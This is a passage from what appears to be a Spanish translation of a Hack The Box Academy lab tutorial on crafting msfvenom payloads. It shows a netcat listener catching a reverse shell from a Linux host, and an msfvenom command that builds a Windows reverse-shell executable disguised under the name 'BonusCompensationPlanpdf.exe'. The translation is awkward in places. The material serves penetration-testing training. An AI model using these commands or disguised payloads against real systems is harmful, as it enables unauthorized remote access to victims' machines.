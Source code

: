 ![](https://academy.hackthebox.com/storage/modules/115/ubuntupayload.png)

Tendríamos un oyente listo para ver la conexión en el lado del cuadro de ataque tras la ejecución exitosa.

### **Conexión NC**

Elaboración de cargas útiles con msfvenom

```
xnoxos@htb[/htb]$ sudo nc -lvnp 443
```

Cuando se ejecuta el archivo, vemos que hemos atrapado un shell.

### **Conexión establecida**

Elaboración de cargas útiles con msfvenom

```
xnoxos@htb[/htb]$ sudo nc -lvnp 443Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos

```

Este mismo concepto se puede utilizar para crear cargas útiles para varias plataformas, incluidas Windows.

---

# **Construyendo una carga útil simple sin ciervo para un sistema de Windows**

También podemos usar MSFVENOM para crear un ejecutable (`.exe`) archivo que se puede ejecutar en un sistema de Windows para proporcionar un shell.

### **Carga útil de Windows**

Elaboración de cargas útiles con msfvenom

```
xnoxos@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

```

